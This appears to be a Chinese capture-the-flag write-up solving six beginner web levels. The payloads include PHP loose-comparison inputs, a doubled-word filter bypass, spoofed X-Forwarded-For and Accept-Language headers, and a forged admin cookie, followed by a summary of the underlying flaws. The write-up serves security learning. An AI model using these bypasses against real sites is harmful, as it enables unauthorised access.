







# 米米的奇幻之旅（六关）

第一题米米的奇幻之旅，一共六关，都是很基础的东西。



## 第一关 · 数字=字符串的魔法

```php
if($_GET['step1']=='2026'){
    echo '第一关通过！';
}
```

首先是一个 PHP 弱比较，直接构造 payload：

```text
/?step1=2026
```

**过。**

## 第二关 · 穿越消失的文字



```php
$key=$_GET['step2'];
$key=str_replace('flag', '', $key);
if($key==='flag'){
    success;
}
```

这关会把 `flag` 字符替换为空，注意**替换之后拼起来还是 `flag`**，所以双写绕过：

```text
/?step1=2026&step2=fflaglag
```

!!! warning "纠正一个常见误解"

    `str_replace('flag','',$key)` 默认替换**所有**匹配，不是只替换一次。
    
    双写之所以有效，是因为 `fflaglag` 里只有**一个** `flag` 子串（不重叠）：
    
    ```text
    f f l a g l a g
      └─flag─┘              ← 只有这一处
    删掉后 → f + lag = fla g → 又拼回 "flag"
    ```
    
    实测：
    
    ```text
    原串: fflaglag
    删掉 'flag' 后: [flag]
    含 'flag' 出现次数 = 1
    ```

## 第三关 · 来自本机的访客



提示伪造地址，在 Burp Suite 抓包后在请求头里加上一行：

```http
X-Forwarded-For: 127.0.0.1
```

**过。**

## 第四关 · 管理员身份卡



```php
if($_COOKIE['admin']=='1'){
    success;
}
```

Cookie 就是浏览器用来判断用户身份的，所以直接把 cookie 里的全删了，改为：

```text
admin=1
```

**过。**

## 第五关 · 来自东方的语言



这关说只接待来自喵星的访客，要「语言标记」。

`zh-CN` 在 `Accept-Language` 里面已经有了，所以直接把 `miao` 添加在后面：

```http
Accept-Language: zh-CN,zh;q=0.9,...,miao
```

**过。**

## 第六关 · 最终 Boss 喵



```php
$pwd=$_GET["pwd"];
if($pwd==0 && strlen($pwd)>0){
    flag
}
```

说要既满足等于 0 又要长度大于 0，那不就是 `0` 吗：

```text
/?step1=2026&step2=fflaglag&pwd=0
```

**过了。**

## 第六关的考点（当时没想明白）

一开始觉得「这不就是 0 吗」，后来明白出题人想考的其实是 **`==` 松散比较的坑**：

```php
var_dump("abc" == 0);    // PHP 7 下 → bool(true)
```

**在 PHP 7 里，任意「非数字字符串」和 0 做 `==` 比较，结果都是 `true`。**

所以第六关的正确解法其实非常多：

```text
?pwd=0        ← 我用的,长度 1,数值也是 0
?pwd=abc      ← 更"标准"的答案,长度 3,但 == 0 为真
?pwd=admin    ← 一样能过
```

`pwd=0` 只是碰巧也对，**真正的知识点是 `"任意字符" == 0 为 true`**。

（PHP 8 之后这个坑被修了，`"abc" == 0` 变成 `false`。）

## 最终 payload

```text
/?step1=2026&step2=fflaglag&pwd=0
```



```text
flag{4a950787-6159-4af4-adea-c8a40ffd8e34}
```

## 六关小结

| 关 | 考点 | 一句话 |
|---|---|---|
| 1 | `==` 弱比较 | 数字和字符串可以相等 |
| 2 | 双写绕过 | 删掉中间的，前后又拼回来 |
| 3 | `X-Forwarded-For` | 服务器信的 IP 可以伪造 |
| 4 | `Cookie` | 身份放客户端 = 没有校验 |
| 5 | `Accept-Language` | 语言标记也是可伪造的输入 |
| 6 | `== 0` | 任意非数字字符串都等于 0（PHP 7） |

**第 3、4、5 关其实是同一个病根：**服务端信任了客户端可控的输入（IP 头、Cookie、语言标记）。

**第 1 和第 6 关是同一个病根：**`==` 松散比较。
